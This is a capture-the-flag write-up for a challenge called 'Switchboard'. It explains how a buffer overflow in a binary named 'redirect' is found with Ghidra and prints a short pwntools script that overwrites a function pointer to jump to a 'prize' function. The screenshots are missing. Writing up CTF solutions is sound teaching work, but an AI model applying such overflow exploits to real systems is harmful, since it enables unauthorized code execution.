





# Switchboard

In this challenge, we are provided with a web interface to interact with the binary "redirect" running on their server, where flag.txt is stored.



We are also given the binary, but not the source code, so I use Ghidra to decompile it. This is the decompiled main function:



Ghidra also reveals a function called "prize":



In main, 256 characters are read into a 64 byte buffer. This can be used to overwrite the pointer to another function, which is called later in main. Since we are given the binary, we can test the exploit locally. In exploit.py, I've used pwntools to exploit the buffer overflow:

```
from pwn import *

elf = ELF("./redirect")

payload = b"A" *64
payload = payload + p64(elf.sym.prize)

p = process("./redirect")

print(p.recv())

print(b"\nSending payload " + payload + b" now\n")

p.send(payload)
print(p.recv())
```

Running this exploit shows us that we have reached the prize function:



Since there is no PIE, using this exact payload should work on their server as well.  
Testing it out gives us the flag:

